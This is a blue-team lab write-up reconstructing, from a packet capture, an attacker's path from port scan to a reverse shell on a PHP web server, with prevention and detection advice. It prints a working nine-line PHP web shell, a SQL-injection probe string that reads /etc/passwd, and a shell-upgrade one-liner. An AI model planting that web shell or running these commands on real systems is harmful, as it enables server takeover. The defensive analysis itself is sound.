# Network Analysis Lab: Tracing a Web Server Compromise in a PCAP

**Date:** 2024

**Environment:** Wireshark on a Windows 10 VM. Packet capture from the Blue Team Labs Online "Network Analysis – Web Shell" challenge (retired)

**Report type:** Packet capture analysis, incident reconstruction

> [!NOTE]
> The challenge answers (port range, tool names and versions, the upload page, web shell name, command parameter, first command and reverse shell port) are redacted throughout, both in the text and in screenshots. Credentials seen in the capture are redacted too. IP addresses are left in, because every screenshot depends on them.

---

## Summary

The capture covers 15 minutes of traffic on a Linux web server (`bob-appserver`). In that window, an attacker at `10.251.96.4` went from first contact to an interactive shell:

1. **Port scan** found SSH (22) and HTTP (80) open.
2. **Directory brute force** mapped the web app and found an exposed `phpinfo` page.
3. **SQL injection tool** probed the login form and triggered an error that leaked database credentials.
4. **File upload abuse:** a PHP web shell was uploaded through the profile page's image upload.
5. **Command execution** through the web shell, then a **Python reverse shell** back to the attacker as `www-data`.

The attacker didn't get root. Their attempt to `cd /root` was denied, and the capture ends there.

---

## Timeline (UTC, 7 February 2021)

| Time | Event |
|---|---|
| 16:31 | Separate network: `172.20.10.5` logs into the web app at `172.20.10.2` as `admin` over plain HTTP |
| 16:33:06 | TCP SYN scan from `10.251.96.4` against `10.251.96.5` |
| 16:34:05 | Directory brute force starts. `phpinfo` page found, exposing PHP 7.2.24 and the hostname |
| 16:36:17 | SQL injection tool hits the login form. The error response leaks DB credentials |
| 16:40:39 | Web shell uploaded through the site's image upload form |
| 16:40:51 | First command run through the web shell |
| 16:42:35 | Python reverse shell connects back to `10.251.96.4` |
| After 16:42 | Attacker tries to reach `/root`. Permission denied |

---

## Analysis

### 1. Getting oriented

Capture File Properties gives the scope: 17,508 packets over 15 minutes, captured on interface `any` on a Linux 5.4.0-42 host. The phpinfo page later shows `bob-appserver` runs that same kernel, so this capture was most likely taken on the web server itself.



Capture File Properties shows times in my VM's local time zone (08:31), while the server's HTTP headers say 16:31 GMT. I switched Wireshark's time display to UTC so everything lines up.

The IPv4 Conversations view showed two dominant pairs: `10.251.96.4 ↔ 10.251.96.5` (15,883 packets) and `172.20.10.5 ↔ 172.20.10.2` (1,324 packets). The first is the attack.



### 2. The port scan

`10.251.96.4` sent SYN packets from a single source port (41675) to a long run of destination ports, all within the same second. Closed ports answered RST/ACK. Port 80 answered SYN/ACK.



**Why this is a SYN scan:** the scanner sends SYN, reads the reply and never completes the handshake. The TCP Conversations view confirms it. Every scanned port shows 2 packets (SYN out, RST back), except 22 and 80, which show 3 (SYN, SYN/ACK, then the scanner's RST). Those two are open.




### 3. Directory brute force

Within a minute, the same IP was firing hundreds of requests at port 80 for random and common paths: `.history` and GUID-style names. Almost all came back 404. The User-Agent header named the tool outright.



One of the hits that returned 200 was a `phpinfo()` page. It handed the attacker the PHP version (7.2.24), the hostname, the kernel version and the full PHP configuration.



### 4. SQL injection tool against the login form

The User-Agent changed to an automated SQL injection tool, POSTing test credentials to the site. The app's error response gave away more than the tool could have found on its own:



`Unable to connect to: <redacted>@localhost` is a database connection string, apparently including a username and password, in a public error message.

**A correction to my original write-up:** I'd described the request `/?QLuT=8454 AND 1=1 UNION ALL SELECT ... '<script>alert("XSS")</script>' ... EXEC xp_cmdshell('cat ../../../etc/passwd')` as a combined SQL injection, XSS and command execution attack. It's actually the tool's built-in check for a WAF or IPS. It's deliberately loud, mixing every obvious attack string to see whether something blocks it. It tells you the tool is running, not what the attacker is after.

### 5. Web shell upload

At 16:40:39, the attacker POSTed a multipart upload through the site's image upload form. The "image" was a PHP file:

```php
<?php
if(isset($_REQUEST['<param>']) ){
echo "<pre>";
$<param> = ($_REQUEST['<param>']);
system($<param>);
echo "</pre>";
die;
}
?>
```



That's a complete web shell in nine lines. Whatever is passed in the parameter runs as a system command. The server accepted it, confirmed the upload, and the attacker browsed straight to `/uploads/` to find it.

### 6. From web shell to reverse shell

After a couple of commands through the web shell, the attacker passed a Python one-liner. It opened a socket back to `10.251.96.4` and attached `/bin/sh` to it. The server was now calling out to the attacker, which gets through firewalls that only filter inbound traffic.

The shell landed as `www-data` on `bob-appserver`. The attacker upgraded it to a proper terminal with `python -c 'import pty;pty.spawn("/bin/bash")'`, looked around, and tried `cd /root`: permission denied.



---

## The other network

The `172.20.10.x` traffic is a separate story I didn't fully run down. At 16:31, `172.20.10.5` logged into the same web app at `172.20.10.2` as `admin`, with the password sent in clear text over HTTP:



Later, the same pair held a two-minute SSH session (728 packets on port 22). The app, server banner and nav links are identical on both addresses, so `172.20.10.2` and `10.251.96.5` are most likely two interfaces on the same server. Whether this was an administrator or a second intrusion isn't something the capture alone answers. The SSH session is encrypted, so the next step would be the server's auth logs.

---

## Corrections to my original report

- **The scanner's IP.** My original report named `10.251.96.5` as the IP behind the port scan. That's the target. The scan came from `10.251.96.4`.
- **The "SQLi and XSS attack"** was the tool's WAF detection probe (see step 4).

---

## What would have stopped or caught this

| Stage | Prevention | Detection |
|---|---|---|
| Recon | Remove `phpinfo()` from production | Hundreds of 404s from one IP in seconds. Known scanner User-Agents (easily faked, but often left in place) |
| Credential leak | Generic error pages. Never echo connection strings | Errors containing `@localhost` in HTTP responses |
| Web shell upload | Validate file type by content, not extension. Disable PHP execution in `/uploads` | A `.php` file written to an upload directory |
| Reverse shell | Block outbound connections from the web server by default | Web server making an outbound connection to a high port. `www-data` spawning `sh`, `bash` or `python` |
| Clear text login | HTTPS everywhere | POST to `/login.php` over port 80 |

**MITRE ATT&CK:** T1046 (Network Service Discovery), T1595.003 (Active Scanning: Wordlist Scanning), T1190 (Exploit Public-Facing Application), T1505.003 (Web Shell), T1059.006 (Python), T1059.004 (Unix Shell)

**Tools:** Wireshark (Capture File Properties, Protocol Hierarchy, Conversations, Follow HTTP/TCP Stream, display filters)
